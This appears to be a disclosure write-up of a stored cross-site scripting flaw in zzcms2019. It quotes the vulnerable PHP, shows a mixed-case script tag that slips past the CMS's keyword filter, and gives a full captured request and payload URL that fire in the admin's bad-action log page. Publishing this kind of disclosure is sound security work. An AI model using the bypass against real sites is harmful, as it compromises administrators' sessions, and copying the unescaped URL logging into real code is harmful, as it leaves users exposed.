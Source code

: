 

# /user/ask.php

Edition: zzcms2019 /user/ask.php

# 0x01 Vulnerability

Get the `do` parameter with the `get` method

```php
<?php
$do=isset($_GET['do'])?$_GET['do']:'';
switch ($do) {
case "add":add();break;
case "modify":modify();break;
}
```

The `modify()`function

```php
function modify()
{
    global $username; ?>

<div class="admintitle">修改问答信息</div>
<?php
$page = isset($_GET['page'])?$_GET['page']:1;
    checkid($page);
    $id = isset($_GET['id'])?$_GET['id']:0;
    checkid($id, 1);

    $sqlzx="select * from zzcms_ask where id='$id'";
    $rszx =query($sqlzx);
    $rowzx = fetch_array($rszx);
    if ($id<>0 && $rowzx["editor"]<>$username) {
        markit();
        showmsg('非法操作！警告：你的操作已被记录！小心封你的用户及IP！');
    } ?>	  
```

Which called the vulnerable function `markit()`

This function in`/inc/function.php`

```php
//$_SERVER['HTTP_REFERER'];//上页来源
function markit()
{
    $userip = $_SERVER["REMOTE_ADDR"];
    //$userip=getip();
    $url = "http://" . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];
    query("insert into zzcms_bad (username,ip,dose,sendtime)values('" . $_COOKIE["UserName"] . "','$userip','$url','" . date('Y-m-d H:i:s') . "')");
}
```

The `$url` is not filtered and inserted directly into the database, so we can register a user and access `http://www.zzcms2019.cc/user/ask.php?do=modify&page=1&id=1`, which will appear

![](https://i.imgur.com/5JxxULl.png)

At this point we can use Burpsuite to capture the package, modify the URI path of the package to `/user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt> `

Use `<sCrIpT>alert(/xss/)</ScRiPt>` because there is a detection function in `/inc/stopsqlin.php`

```php
<?php
//主要针对在任何文件后加?%3Cscript%3E，即使文件中没有参数
if (strpos($_SERVER['REQUEST_URI'],'script')!==false || strpos($_SERVER['REQUEST_URI'],'%26%2399%26%')!==false|| strpos($_SERVER['REQUEST_URI'],'%2F%3Cobject')!==false){
die ("无效参数");//注意这里不能用js提示
}
```

![](https://i.imgur.com/H67jYWx.png)

The complete package is as follows

> GET /user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt> HTTP/1.1
> Host: www.zzcms2019.cc
> User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
> Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
> Accept-Encoding: gzip, deflate
> Cookie: __tins__713776=%7B%22sid%22%3A%201551009070949%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201551010962798%7D; __51cke__=; __51laig__=12; bdshare_firstime=1551002231060; PHPSESSID=8o9ms5t57q6dag7ofku75fn2j7; UserName=test; PassWord=e10adc3949ba59abbe56e057f20f883e
> Connection: keep-alive
> Upgrade-Insecure-Requests: 1

When the administrator accesses the **Users→User Bad Action Record** 

![](https://i.imgur.com/VMs1r1r.png)

He/She will be see a alert window which said **/xss/**

![](https://i.imgur.com/MtBdViP.png)

And the database is displayed as follows

![](https://i.imgur.com/Vt2YN9X.png)

Payload:`url/to/zzmcs/user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt>`



